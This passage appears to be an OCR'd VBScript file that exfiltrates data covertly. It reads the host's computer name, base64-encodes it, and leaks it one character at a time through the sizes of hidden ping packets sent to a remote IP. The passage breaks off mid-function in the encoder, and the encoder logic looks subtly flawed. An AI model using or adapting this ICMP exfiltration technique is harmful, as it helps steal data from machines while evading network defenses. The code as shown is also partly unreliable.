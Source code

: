   
Dim MY_DATA
MY_DATA = CreateObject("WScript.Shell").ExpandEnvironmentStrings("%COMPUTERNAME%")

  
Dim bytes
bytes = StrToByteArray(MY_DATA)

  
Dim base64string
base64string = CustomBase64Encode(bytes)

'WScript.Echo base64string

Dim shell, pingCmd, i
Set shell = CreateObject("WScript.Shell")


pingCmd = "ping -n 1 -l 1 " & ip

shell.Run pingCmd, 0, True

  
For i = 1 To Len(base64string)
    Dim x
    x = AscW(Mid(base64string, i, 1))
    Dim dataBuffer
    ReDim dataBuffer(x - 1)
    pingCmd = "ping -n 1 -l " & x & " " & ip
    shell.Run pingCmd, 0, True
    WScript.Sleep 100

Next


Function CustomBase64Encode(bytes)
    Dim base64Chars, padding
    base64Chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
    padding = "="

    Dim dataLength, outLength, p1, p2, p3
    dataLength = UBound(bytes) - LBound(bytes) + 1
    outLength = 4 * ((dataLength + 2) \ 3)

    Dim output, ipos, opos, a
    ReDim output(outLength - 1)

    ipos = 0
    opos = 0

    Do While ipos < dataLength

        p1 = bytes(ipos)
        ipos = ipos + 1
        a = a Or (p1 And 255)


        If ipos < dataLength Then
            p2 = bytes(ipos)
            ipos = ipos + 1
            a = a * 256 + (p2 And 255)
        Else
            p2 = 0
            a = a * 256
        End If
